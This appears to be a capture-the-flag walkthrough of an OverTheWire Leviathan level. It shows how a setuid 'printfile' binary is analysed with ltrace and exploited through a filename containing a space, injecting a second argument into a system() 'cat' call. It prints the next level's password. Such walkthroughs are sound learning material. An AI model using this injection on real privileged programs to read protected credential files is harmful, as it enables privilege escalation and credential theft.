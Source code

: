 For this level, I use `ls -la` and find `printfile` executable with owner as leviathan3. The executable also gives permission to leviathan2 for executing it shown below:
```
leviathan2@gibson:~$ ls -la
total 36
drwxr-xr-x  2 root       root        4096 Oct  5 06:19 .
drwxr-xr-x 83 root       root        4096 Oct  5 06:20 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15060 Oct  5 06:19 printfile
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```

Now, we execute the printfile which takes in a file and prints out it's contents like `cat`
```
leviathan2@gibson:~$ ./printfile /etc/host.conf
# The "order" line is only used by old versions of the C library.
order hosts,bind
multi on
```

As usual, to understand more of the stack trace of the executable, I use objdump to print the dynamic symbol table:
```
leviathan2@gibson:~$ objdump -T printfile

printfile:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000      DF *UND*  00000000 (GLIBC_2.34) __libc_start_main
00000000      DF *UND*  00000000 (GLIBC_2.0)  printf
00000000      DF *UND*  00000000 (GLIBC_2.4)  __stack_chk_fail
00000000      DF *UND*  00000000 (GLIBC_2.0)  geteuid
00000000      DF *UND*  00000000 (GLIBC_2.0)  puts
00000000      DF *UND*  00000000 (GLIBC_2.0)  system
00000000  w   D  *UND*  00000000  Base        __gmon_start__
00000000      DF *UND*  00000000 (GLIBC_2.0)  setreuid
00000000      DF *UND*  00000000 (GLIBC_2.0)  snprintf
00000000      DF *UND*  00000000 (GLIBC_2.0)  access
0804a004 g    DO .rodata        00000004  Base        _IO_stdin_used
```

However, the table did not didn't reveal much of what we know so I tried reading the password for leviathan3 directly, which unsurprisingly failed:

```
leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Using ltrace, I observed the following function calls:

```
leviathan2@gibson:~$ ltrace ./printfile /etc/host.conf
__libc_start_main(0x80491e6, 2, 0xffffd684, 0 <unfinished ...>
access("/etc/host.conf", 4)                                                                                                         = 0
snprintf("/bin/cat /etc/host.conf", 511, "/bin/cat %s", "/etc/host.conf")                                                           = 23
geteuid()                                                                                                                           = 12002
geteuid()                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                              = 0
system("/bin/cat /etc/host.conf"# The "order" line is only used by old versions of the C library.
order hosts,bind
multi on
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                              = 0
+++ exited (status 0) +++
```

From the above calls, the sequence seems to be:
    - Check if the file is accessible (access).
    - Store the command in a buffer (snprintf).
    - Change the user ID (geteuid and setreuid).
    - Execute the command (system).

From this, we still need to somehow bypass the access check so that we can execute the command with elevated permissions (likely leviathan3).

The vulnerability lies in the way the printfile program processes filenames. Since the program concatenates the filename directly into the command it will execute, we can manipulate the filename to modify the command.
The payload was designed in the form of a filename. By adding a space character followed by the desired file we want to access, we can make the system function execute the cat command on both files.
So, by naming our file as `a leviathan3`, the `printfile` executable attempts to read both the files, a and leviathan3.
```
leviathan2@gibson:/etc/leviathan_pass$ ~/printfile '/tmp/tmp.0wDX4pzYkj/a leviathan3'
/bin/cat: /tmp/tmp.0wDX4pzYkj/a: Permission denied
Q0G8j4sakn
```
Code signals in `ltrace`:
```
leviathan2@gibson:/etc/leviathan_pass$ ltrace ~/printfile '/tmp/tmp.0wDX4pzYkj/a leviathan3'
__libc_start_main(0x80491e6, 2, 0xffffd644, 0 <unfinished ...>
access("/tmp/tmp.0wDX4pzYkj/a leviathan3"..., 4)                                                                                    = 0         access is bypassed with the filename
snprintf("/bin/cat /tmp/tmp.0wDX4pzYkj/a l"..., 511, "/bin/cat %s", "/tmp/tmp.0wDX4pzYkj/a leviathan3"...)                          = 41        
geteuid()                                                                                                                           = 12002
geteuid()                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                              = 0
system("/bin/cat /tmp/tmp.0wDX4pzYkj/a l".../bin/cat: /tmp/tmp.0wDX4pzYkj/a: No such file or directory                                      the cat tmpfile is not allowed as the owner is leviathan2
/bin/cat: leviathan3: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                              = 256
+++ exited (status 0) +++
```

### Reflection:
You can use a filename as a payload with the file you want to bypass certain functions. Using filenames as payloads can be a strong method to exploit poorly written programs. 
So, to mitigate payload attacks using files, we need to sanitize and validate inputs.




